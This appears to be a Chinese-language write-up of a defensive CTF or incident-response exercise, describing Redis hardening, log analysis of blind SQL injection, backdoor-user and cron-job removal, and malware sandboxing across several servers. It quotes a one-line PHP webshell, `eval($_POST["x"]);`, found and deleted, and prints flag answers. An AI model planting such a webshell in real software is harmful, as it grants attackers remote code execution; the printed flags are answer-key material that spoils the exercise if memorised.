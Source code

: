 # OA 系统
## 1.redis 加固
```shell
root@cf8419e3b979:~# redis-cli  
127.0.0.1:6379> config get requirepass
1) "requirepass"
2) ""
127.0.0.1:6379> config set requirepass 6b95fa87
OK
127.0.0.1:6379> 
root@cf8419e3b979:~# /etc/init.d/redis-server restart
Stopping redis-server: redis-server.
Starting redis-server: redis-server.
```

加一个验证密码，然后重启 redis。

## 2.webshell 分析
把 /var/www/html 的内容下载出来，然后丢入 D 盾扫一下，发现 web/error.php 中存在 `eval($_POST["x"]);`。直接删除。

![](../../images/5a9e3f17ac2d3d439c007e7c16d7653f.png)

## 3.蚁剑流量分析
文件在 /root 目录中，拿出来丢入 Net-A，发现蚁剑流量。

![](../../images/8aee2c212219fdd7d563ccb7482ce2c0.png)

![](../../images/f8e45aa65999b2d6a970e70f2e433c01.png)

解出来 flag。

## 5.后门清除
有个 /var/www/html 很明显有个后门，但是手贱直接删了，导致做不了上一题。



# 个人文件系统
## 1.nginx 日志分析
看一下 /var/log/nginx/access.log ，得到日志。

内容很明显是布尔盲注，手动推出来 ASCII 码值，转成字符即可。

```plain
102 108 97 103 123 87 48 119 95 121 48 117 95 102 49 110 100 95 97 55 116 97 99 107 95 49 110 95 97 99 99 51 115 115 95 108 111 103 95 66 70 83 70 68 67 35 64 68 83 125
flag{W0w_y0u_f1nd_a7tack_1n_acc3ss_log_BFSFDC#@DS}
```

## 2.计划任务分析
![](../../images/69f3cfd6944a2618555b15ccf27ac24b.png)

## 3.计划任务清除
```shell
rm safeline
```

## 4.sudo 组后门
cat /etc/passwd 发现有一个叫 h4ck 的用户，直接 userdel h4ck 删除用户。



# 即时协作服务器
## 1.弱口令修改
登入后台，直接改就好了，我改成了 P@ssw0rd。



# 邮件服务器
## 4.恶意病毒分析_1
一连上有个很明显的 exe 病毒，直接丢入云沙箱检测。

![](../../images/2f7e09f3ed387cb14cf2d65fba85e21c.png)

发现时间。

## 5.恶意病毒分析_2
如上，恶意病毒自身复制的文件位置很明显，c:\windows\system32。


